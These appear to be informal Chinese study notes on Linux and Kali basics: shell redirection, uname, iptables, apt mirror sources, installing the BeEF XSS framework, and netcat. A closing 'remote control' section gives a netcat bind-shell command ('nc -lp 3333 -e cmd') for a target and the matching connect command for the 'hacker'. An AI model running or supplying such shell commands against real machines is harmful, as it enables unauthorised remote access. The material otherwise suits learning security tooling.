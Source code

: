 echo haha > 1.txt 在1.txt里写入haha（**覆盖**）

echo haha **>>** 1.txt **追加**

uname 查看操作系统

uname -a 查看详细版本号

防火墙

service iptables start/stop

chkconfig iptables on/off ———>kali

------

linux下载东西在哪里下载

/etc/apt/source/list

```
deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib 

deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
apt-get update
```

更新

## beef安装

apt-get install beef-xss

安装beef-xss的东西

beef按下tab键补全

## netcat

服务端：

nc -l -p 4444

客户端：

nc -nv [服务端ip] 4444

------

**远程控制**

正向控制：

目标：

nc -lp 3333 -e cmd

黑客：

nc -nv [目标ip] 3333
